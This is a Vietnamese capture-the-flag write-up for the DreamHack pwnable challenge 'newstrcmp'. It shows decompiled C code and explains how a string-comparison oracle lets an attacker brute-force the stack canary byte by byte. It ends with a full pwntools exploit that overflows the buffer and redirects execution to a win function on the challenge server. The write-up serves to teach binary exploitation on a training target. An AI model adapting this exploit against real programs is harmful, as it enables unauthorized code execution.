


# newstrcmp---Write-up-----DreamHack
Hướng dẫn cách giải bài newstrcmp cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 23/12/2025

## 1. Mục tiêu cần làm
Ta hãy xem bài này có gì



Bài này có Canary và No PIE. Hãy thử đọc code xem nó như nào.

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+10h] [rbp-50h]
  unsigned int v5; // [rsp+14h] [rbp-4Ch] BYREF
  int v6; // [rsp+18h] [rbp-48h]
  char buf[2]; // [rsp+1Eh] [rbp-42h] BYREF
  char v8[16]; // [rsp+20h] [rbp-40h] BYREF
  __int64 v9; // [rsp+30h] [rbp-30h]
  __int64 v10; // [rsp+38h] [rbp-28h]
  char v11[24]; // [rsp+40h] [rbp-20h] BYREF
  unsigned __int64 v12; // [rsp+58h] [rbp-8h]

  v12 = __readfsqword(0x28u);
  v9 = 0LL;
  v10 = 0LL;
  v4 = 0;
  setup(argc, argv, envp);
  puts("Tester for newstrcmp");
  while ( 1 )
  {
    printf("Trial: %d\n", (unsigned int)++v4);
    printf("Exit? (y/n): ");
    read(0, buf, 2uLL);
    if ( buf[0] == 121 )
      break;
    printf("Input string s1: ");
    read(0, v8, 0x40uLL);
    printf("Input string s2: ");
    read(0, v11, 0x40uLL);
    newstrcmp(v8, v11, &v5);
    printf("Result of newstrcmp: ");
    if ( v6 )
    {
      if ( v6 >= 0 )
        printf("s1 is larger than s2, first differs at %d\n", v5);
      else
        printf("s1 is smaller than s2, first differs at %d\n", v5);
    }
    else
    {
      puts("Two strings are the same!");
    }
  }
  return 0;
}
```

Có vẻ như bài là 1 bài **Buffer Overflow** bình thường. Ta chỉ cần đè saved RIP bằng địa chỉ `win` là xong. Nhưng mà làm sao để bypass Canary đây ?

## 2. Cách thực thi
Nếu chúng ta đọc sang phần hàm so sánh `newstrcmp`. Ta sẽ thấy là

```C
_DWORD *__fastcall newstrcmp(const char *a1, __int64 a2, _DWORD *a3)
{
  int v3; // edx
  _DWORD *result; // rax
  int i; // [rsp+28h] [rbp-8h]
  int v7; // [rsp+2Ch] [rbp-4h]

  v7 = strlen(a1);
  for ( i = 0; ; ++i )
  {
    if ( i >= v7 )
    {
      a3[1] = 0;
      result = a3;
      *a3 = -1;
      return result;
    }
    if ( a1[i] != *(_BYTE *)(i + a2) )
      break;
  }
  if ( a1[i] >= *(_BYTE *)(i + a2) )
    v3 = 1;
  else
    v3 = -1;
  a3[1] = v3;
  result = a3;
  *a3 = i;
  return result;
}
```

Chúng ta thấy rằng nó chỉ kiểm tra xem 2 chuỗi có khớp không, thêm vào đó nó không thề kiểm tra độ dài của chuỗi `s2`. Giờ chúng ta sẽ mò vô gdb 1 tí. Mở gdb lên và start, sau đó đặt breakpoint sau lần nhập chuỗi `s2`.



Mình nhập `s1` là `AAAA` và `s2` là `BBBB`. Và nhìn đi bất ngờ là Canary nằm đằng cách `s2` 16 byte. Sẽ ra sao nếu ta lợi dụng vòng lặp + hàm so sánh này brute force Canary ?

Chúng ta sẽ nhập `s1` là 24 byte `A` + `byte X brute force` + `B nhử mồi`. Sau đó biến `s2` sẽ là 24 byte `A` và ` các byte Canary đã đoán đúng `. Chúng ta sẽ brute force mỗi vị trí là 256 byte.

Vậy là xong, bài này chờ hơi lâu tí nhưng vẫn khá dễ cho các bạn mới học. Hãy cho mình 1 star để có động lực tiếp viết nha 🐧.

## 3.Exploit

```Python
from pwn import *

# p = process('./newstrcmp')
p = remote('host3.dreamhack.games', 15723)

known_canary_part = b'' 

p.recvuntil(b'Exit? (y/n): ')
p.sendline(b'n')

for i in range(7):
    print(f"[-] Dang do byte thu {i+2}...")
    
    found = False
    for byte in range(256): 
        guess = p8(byte)
        
        # Chúng ta ghi đè byte \x00 đầu tiên của Canary trên stack bằng chữ 'A'
        # Để strlen(s1) không bị dừng lại.
        
        s1_payload = b'A'*24 + b'A' + known_canary_part + guess + b'B'
        
        # Ghi 24 byte đệm + 'A' (Ghi đè lên byte \x00 của Canary thật) + các byte đã tìm
        # Lưu ý: Ta chỉ ghi đến các byte đã tìm, byte đang đoán trên stack chưa bị ghi đè (nó là giá trị gốc)
        s2_payload = b'A'*24 + b'A' + known_canary_part
        
        # Gửi
        p.sendafter(b'Input string s1: ', s1_payload)
        p.sendafter(b'Input string s2: ', s2_payload)
        
        result = p.recvuntil(b'Trial:')
        
        p.sendlineafter(b'Exit? (y/n): ', b'n')
        
        # Vị trí đang check = 24 (padding) + 1 (byte A giả) + len(known)
        target_index = 25 + len(known_canary_part)
        
        # Nếu đoán ĐÚNG:
        # newstrcmp sẽ vượt qua byte guess, và thấy khác biệt ở ký tự mồi 'B' phía sau.
        # -> Output: "first differs at {target_index + 1}"
        
        success_msg = f"first differs at {target_index + 1}".encode()
        
        if success_msg in result:
            print(f"[+] Tim thay byte: {hex(byte)}")
            known_canary_part += guess
            found = True
            break

final_canary = b'\x00' + known_canary_part
canary_int = u64(final_canary)
log.success(f"Canary (Integer): {hex(canary_int)}")

ret = 0x000000000040101a          # Align Stack

flag_add = 0x000000000040125b     # tự tìm vì bài No PIE

payload = b'A' * 24
payload += p64(canary_int)
payload += b'B' * 8
payload += p64(ret)
payload += p64(flag_add)

p.sendafter(b'Input string s1: ', b'Exploit')

p.sendafter(b'Input string s2: ', payload)

p.sendlineafter(b'Exit? (y/n): ', b'y')

p.interactive()
```
